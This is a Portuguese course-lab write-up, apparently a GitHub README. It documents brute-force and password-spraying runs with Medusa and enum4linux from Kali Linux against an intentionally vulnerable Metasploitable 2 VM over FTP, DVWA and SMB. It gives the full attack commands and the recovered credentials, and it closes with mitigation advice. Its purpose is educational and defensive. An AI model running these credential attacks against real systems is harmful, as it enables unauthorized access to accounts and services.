# 🔐 Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux

Repositório desenvolvido como parte do desafio prático da **DIO (Digital Innovation One)** sobre auditoria de segurança, testes de força bruta (*Brute Force*) e *Password Spraying* em ambiente controlado utilizando **Kali Linux**, **Medusa**, **Enum4linux** e **Metasploitable 2 (DVWA / SMB / FTP)**.

> ⚠️ **Aviso Legal:** Todos os testes documentados neste repositório foram realizados exclusivamente em um laboratório local isolado (*Host-Only* no Oracle VirtualBox) com máquinas virtuais intencionalmente vulneráveis para fins educacionais e de defesa cibernética.

---

## 🎯 Objetivos do Projeto

- Configurar um ambiente de laboratório seguro e isolado com **Kali Linux** (atacante) e **Metasploitable 2** (alvo).
- Compreender o funcionamento de ataques de **Força Bruta (*Brute Force*)** e **Pulverização de Senhas (*Password Spraying*)** em diferentes protocolos (**FTP**, **HTTP/DVWA** e **SMB**).
- Realizar enumeração de usuários, compartilhamentos e políticas de senha via **SMB** com `enum4linux`.
- Utilizar a ferramenta **Medusa** para auditoria de credenciais e validar os acessos obtidos.
- Propor medidas práticas de **mitigação e endurecimento (*hardening*)** para proteger ambientes reais contra esses vetores de ataque.

---

## 🛠️ Estrutura do Repositório

```text
├── images/                  # Capturas de tela comprovando cada etapa prática do laboratório
│   ├── 01.png               # Identificação de IP na VM Metasploitable 2 (192.168.56.102)
│   ├── 02.png               # Extração de amostra da wordlist rockyou.txt no Kali Linux
│   ├── 03.png               # Listagem das wordlists criadas (usuarios.txt, senhas_fracas.txt, etc.)
│   ├── 04.png               # Início da enumeração SMB com enum4linux
│   ├── 05.png               # Enumeração de grupos e usuários locais via SID
│   ├── 06.png               # Mapeamento de compartilhamentos SMB e política de senhas
│   ├── 09.png               # Detalhamento dos usuários enumerados via SID no domínio METASPLOITABLE
│   ├── 10.png               # Execução de ataque automatizado no formulário Web (DVWA) com Medusa
│   ├── 11.png               # Resultados das tentativas de autenticação HTTP no DVWA
│   ├── 12.png               # Ataque em SMB (módulo smbnt) com Medusa utilizando wordlists customizadas
│   ├── 13.png               # Descoberta da credencial válida msfadmin:msfadmin no serviço SMB
│   └── 14.png               # Validação pós-exploração de acesso aos compartilhamentos via smbclient
├── wordlists/               # Wordlists utilizadas nos testes de força bruta e password spraying
│   ├── usuarios.txt         # Lista de usuários enumerados/comuns para auditoria
│   └── senhas_fracas.txt    # Lista de senhas fracas/padrão para teste de pulverização
└── README.md                # Documentação técnica completa do projeto
```

---

## 🖥️ 1. Configuração do Ambiente

O laboratório foi estruturado no **Oracle VirtualBox** utilizando duas máquinas virtuais conectadas em uma rede interna isolada (**Host-Only Adapter** na faixa `192.168.56.0/24`):

| Máquina Virtual | Papel | Sistema Operacional | Endereço IP |
| :--- | :--- | :--- | :--- |
| **Kali Linux** | Máquina de Auditoria / Atacante | Kali Linux 2026.3 (amd64) | `192.168.56.x` |
| **Metasploitable 2** | Servidor Alvo Vulnerável | Ubuntu 8.04 LTS Server (i686) | `192.168.56.102` |

### Verificação de Conectividade e IP do Alvo

Na máquina **Metasploitable 2**, foi utilizado o comando `ip a` para identificar o endereço IP atribuído à interface `eth0` (`192.168.56.102/24`):



---

## 📝 2. Preparação das Wordlists

No **Kali Linux**, foram preparadas listas customizadas de usuários e senhas para simular tanto ataques de dicionário quanto ataques direcionados (*Password Spraying*):

1. **Extração de amostra da `rockyou.txt`:**
   ```bash
   zcat /usr/share/wordlists/rockyou.txt.gz | head -n 50 > amostra_senhas.txt
   ```
2. **Criação da lista de usuários ([`wordlists/usuarios.txt`](wordlists/usuarios.txt)):**
   ```text
   admin
   root
   user
   guest
   msfadmin
   service
   ```
3. **Criação da lista de senhas fracas ([`wordlists/senhas_fracas.txt`](wordlists/senhas_fracas.txt)):**
   ```text
   password
   123456
   Welcome123
   msfadmin
   qwerty
   admin123
   ```





---

## 🔍 3. Reconhecimento e Enumeração SMB (`enum4linux`)

Antes de executar ataques de força bruta no protocolo **SMB**, realizou-se a enumeração completa do servidor alvo para identificar o domínio/workgroup, políticas de senha (para evitar bloqueio de contas) e nomes de usuários reais do sistema.

### Comando Executado
```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
```

### Principais Descobertas da Enumeração
- **Workgroup/Domínio identificado:** `WORKGROUP` / `METASPLOITABLE`
- **Compartilhamentos acessíveis via sessão nula:** `//192.168.56.102/tmp` permitiu mapeamento e listagem (`Mapping: OK Listing: OK`).
- **Política de Senhas:** Comprimento mínimo de 5 caracteres (`Minimum password length: 5`) e sem histórico ou bloqueio configurado.
- **Usuários locais enumerados via SID (`S-1-5-21-1042354039-2475377354-766472396`):** `Administrator`, `nobody`, `root`, `daemon`, `bin`, `sys`, `sync`, `games`, `man`, `lp`, `mail`, `news`, `uucp`, `proxy`, `msfadmin`, entre outros.









---

## ⚔️ 4. Execução dos Ataques Simulados com Medusa

### 4.1. Força Bruta em Serviço FTP

Para testar credenciais no serviço FTP (`vsftpd 2.3.4` na porta 21 do Metasploitable 2), utiliza-se o módulo `-M ftp` do Medusa:

```bash
medusa -h 192.168.56.102 -U usuarios.txt -P senhas_fracas.txt -M ftp -t 4
```

- **Parâmetros utilizados:**
  - `-h 192.168.56.102`: IP do host alvo.
  - `-U usuarios.txt`: Arquivo contendo a lista de usuários.
  - `-P senhas_fracas.txt`: Arquivo contendo a lista de senhas.
  - `-M ftp`: Módulo de ataque ao protocolo FTP.
  - `-t 4`: Número de conexões paralelas (*threads*).

---

### 4.2. Automação de Tentativas em Formulário Web (DVWA)

Para simular tentativas automatizadas de login na aplicação web vulnerável **DVWA (Damn Vulnerable Web Application)** hospedada em `http://192.168.56.102/dvwa/login.php`, foi utilizado o Medusa testando as combinações de `usuarios.txt` e `amostra_senhas.txt`:

```bash
medusa -h 192.168.56.102 -U usuarios.txt -P amostra_senhas.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```

> 💡 **Nota Técnica:** Também é possível utilizar o módulo `-M web-form` no Medusa para formulários HTML baseados em método POST/GET ou o **Burp Suite / Hydra (`http-post-form`)** quando há tokens anti-CSRF (`user_token`) ou redirecionamentos HTTP `302 Found`.





---

### 4.3. Password Spraying / Brute Force em SMB (`smbnt`)

Com base nas informações coletadas na fase de enumeração (`enum4linux`), foi executado o teste de credenciais contra o serviço **Samba (SMB)** utilizando o módulo `smbnt` do Medusa:

```bash
medusa -h 192.168.56.102 -U usuarios.txt -P senhas_fracas.txt -M smbnt -t 2 -T 50
```

- **Resultado Obtido:**
  O Medusa identificou com sucesso as credenciais administrativas válidas:
  ```text
  ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
  ```





---

## ✅ 5. Validação de Acesso Pós-Exploração (`smbclient`)

Para confirmar a validade da credencial obtida (`msfadmin:msfadmin`) e demonstrar a diferença entre uma tentativa falha e um acesso autenticado:

1. **Primeira tentativa (senha incorreta):** Retornou `session setup failed: NT_STATUS_LOGON_FAILURE`.
2. **Segunda tentativa (com a senha `msfadmin` descoberta pelo Medusa):** Autenticação bem-sucedida, listando todos os compartilhamentos administrativos do servidor (`print$`, `tmp`, `opt`, `IPC$`, `ADMIN$` e o diretório home `msfadmin`):

```bash
smbclient -L //192.168.56.102 -U msfadmin
```



---

## 🛡️ 6. Recomendações de Mitigação e Prevenção

A partir das vulnerabilidades exploradas durante os testes, recomendam-se as seguintes medidas de segurança (*Defense in Depth*):

| Vetor Explorado | Medida de Mitigação Recomendada |
| :--- | :--- |
| **Senhas Padrão / Fracas (`msfadmin:msfadmin`, `password`)** | Implementar políticas rigorosas de complexidade de senha (mínimo de 12+ caracteres, letras maiúsculas/minúsculas, números e símbolos) e proibir senhas presentes em dicionários conhecidos (*breached passwords*). |
| **Ausência de Bloqueio de Conta (*Account Lockout*)** | Configurar bloqueio temporário de conta após um número reduzido de falhas consecutivas (ex.: 5 tentativas inválidas bloqueiam a conta por 15 a 30 minutos via `pam_faillock` no Linux ou GPO no Active Directory). |
| **Autenticação em Formulários Web sem Proteção** | Implementar **MFA (Autenticação Multifator)**, **Rate Limiting** por IP/sessão, **verificação contra bots** após tentativas falhas e tokens **Anti-CSRF** dinâmicos por requisição. |
| **Enumeração Anônima no SMB (*Null Session*)** | Desabilitar sessões nulas no Samba (`restrict anonymous = 2` no `smb.conf`) e desativar o protocolo legado **SMBv1**, exigindo assinatura digital SMB (*SMB Signing*) e versões modernas (SMBv2/SMBv3). |
| **Tráfego em Texto Claro (FTP e HTTP)** | Substituir protocolos não criptografados por alternativas seguras: utilizar **SFTP/SSH** no lugar de FTP e **HTTPS (TLS 1.2/1.3)** em todas as interfaces web. |
| **Monitoramento e Detecção (SIEM / IPS)** | Utilizar ferramentas como **Fail2Ban**, **CrowdSec** ou regras de **WAF/SIEM** para detectar picos de eventos de falha de logon (como `NT_STATUS_LOGON_FAILURE` no SMB ou múltiplas respostas de erro de login HTTP) e bloquear automaticamente o IP de origem. |

---

## 👨‍💻 Autor

Desenvolvido por **Thales Mianti** — [github.com/Thalesmianti](https://github.com/Thalesmianti)
